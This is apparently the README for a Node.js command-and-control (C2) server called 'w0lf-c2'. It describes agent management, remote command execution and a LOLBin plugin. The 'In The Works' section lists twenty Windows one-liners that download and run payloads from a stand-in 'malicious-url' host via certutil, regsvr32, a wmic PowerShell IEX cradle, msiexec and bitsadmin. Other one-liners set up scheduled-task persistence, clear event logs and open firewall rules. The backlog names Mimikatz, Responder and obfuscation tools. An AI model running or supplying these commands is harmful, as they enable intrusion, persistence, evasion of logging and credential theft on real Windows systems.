 # C2 C&C Server

## Overview

This repository serves as a educational reference and contains the implementation of a Command and Control (C&C) server used for managing and controlling remote clients. The server facilitates communication with these clients, allowing for command execution, data retrieval, and other operations as needed.

## Features

- **Agent Management**: Registering, managing, and communicating with remote clients.
- **Command Execution**: Sending commands to clients and receiving responses.
- **Data Exchange**: Transferring files, data, or payloads securely between server and clients.
- **Security**: Implementing encryption and secure communication channels.
- **Scalability**: Supporting multiple clients simultaneously and efficiently.
- **Pluggable**: Support for additional commands with plugins.

## Setup Instructions

1. **Prerequisites**:
   - Node.js 18+ and npm installed.

2. **Installation**:
   ```bash
   git clone <repository_url>
   cd w0lf-c2
   npm install

## Features

- Client was built on five diffent languages (c, rust, powershell, python, js)
- Multiple client session management
- Extended features through plugins.
- Server and client logging
- Plugins:
   - Client Manager: A client plugin to manage the remote client.
   - Cmd.exe Binaries: A client plugin that provides native cmd.exe commands.
   - File Manager: A client plugin to manage and manipulate files and folders.
   - System Profiling: A client plugin to profile the system.
   - Living Off The Land Binaries: A client plugin that provides Windows LOLBin commands.
   - Screensaver: A server plugin to show a couple screensavers.

## In The Works

- Additional communication channels (https, http2, web socket, udp dgram)
   ```js
   // http2
   const http2 = require('http2');
   const server = http2.createSecureServer({
      key: fs.readFileSync('server-key.pem'),
      cert: fs.readFileSync('server-cert.pem')
   });

   // websocket
   const WebSocket = require('ws');
   const wss = new WebSocket.Server({ port: 8080 });

   // https
   const http = require('http');
   const server = http.createServer((req, res) => {
      res.statusCode = 200;
      res.setHeader('Content-Type', 'text/plain');
      res.end('Hello World\n');
   });

   // udp
   const dgram = require('dgram');
   const server = dgram.createSocket('udp4');
   server.on('message', (msg, rinfo) => {
      console.log(`server got: ${msg} from ${rinfo.address}:${rinfo.port}`);
   });
- Add more LOLBas commands
   ```bash
   # 1. certutil.exe for Downloading Files
   certutil.exe -urlcache -split -f http://malicious-url/payload.exe C:\Windows\Temp\payload.exe
   # 2. regsvr32.exe for Script Execution
   regsvr32.exe /s /n /u /i:http://malicious-url/script.sct scrobj.dll
   # 3. wmic.exe for Remote Command Execution
   wmic.exe process call create "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command 'IEX ((New-Object Net.WebClient).DownloadStrin ('http://malicious-url/payload.ps1'))'"
   # 4. rundll32.exe for DLL Execution
   rundll32.exe C:\Path\To\Malicious.dll,EntryPoint
   # 5. schtasks.exe for Task Scheduling
   schtasks.exe /create /tn "UpdateTask" /tr "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Path\To\Payload.ps1" /sc daily /st 12:00
   # 6. at.exe for Task Scheduling (Legacy)
   at.exe 12:00 /every:M,T,W,Th,F,Sa,Su "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Path\To\Payload.ps1"
   # 7. msiexec.exe for MSI Execution
   msiexec.exe /quiet /i http://malicious-url/payload.msi
   # 8. scrcons.exe for Script Execution
   scrcons.exe C:\Path\To\Script.vbs
   # 9. xcopy.exe for File Copying
   xcopy /Y C:\Path\To\Malicious.exe C:\Windows\System32\Malicious.exe
   # 10. whoami.exe for User Information
   whoami.exe /all
   # 11. fsutil.exe for File System Utility
   fsutil file createnew C:\Path\To\Malicious.txt 1000
   # 12. wevtutil.exe for Event Log Management
   wevtutil.exe cl System
   # 13. certreq.exe for Certificate Requests
   certreq.exe -new Malicious.inf
   # 14. typeperf.exe for Performance Data
   typeperf "\Processor(_Total)\% Processor Time"
   # 15. bitsadmin.exe for Background File Transfers
   bitsadmin.exe /transfer "jobname" /download /priority normal http://malicious-url/payload.exe C:\Windows\Temp\payload.exe
   # 16. netsh.exe for Network Shell
   netsh advfirewall firewall add rule name="MaliciousRule" dir=in action=allow program="C:\Path\To\Malicious.exe" enable=yes
   # 17. cscript.exe for Script Execution
   cscript C:\Path\To\Malicious.vbs
   # 18. icacls.exe for ACL Management
   icacls C:\Path\To\Malicious.exe /grant Everyone:(RX)
   # 19. wbadmin.exe for Backup Operations
   wbadmin start backup -backupTarget:\\localhost\Backup -include:C:\Path\To\Malicious.exe
   # 20. xcopy.exe with /b Switch for Payload Dropping
   xcopy /b Malicious.exe C:\Windows\System32\LegitFile.dll

## Backlog
Other ideas and things on the back burner:

- Net Commands: Used for network reconnaissance and information gathering.
- netstat: Displays active network connections, listening ports, and related information.
- net: Used for various network operations such as user authentication, shares, sessions, and more.
- arp: Displays and modifies the ARP cache.

- PowerShell Commands: PowerShell provides extensive capabilities for attackers, including scripting, execution of malicious payloads, and interacting with system APIs.
- Invoke-Mimikatz: Executes Mimikatz, a tool for retrieving credentials from memory.
- Invoke-Obfuscation: Obfuscates malicious PowerShell scripts to evade detection.
- Invoke-Shellcode: Executes shellcode in memory without writing to disk.

- Enumeration Tools: Tools used to gather information about the compromised system and the network.
- Nmap: A powerful network scanner used for host discovery, port scanning, and service enumeration.
- enum4linux: Enumerates information from Windows and Samba systems, such as shares, users, groups, policies, and more.
- Responder: Listens for and captures NetNTLMv1/v2 authentication requests, used for credential theft.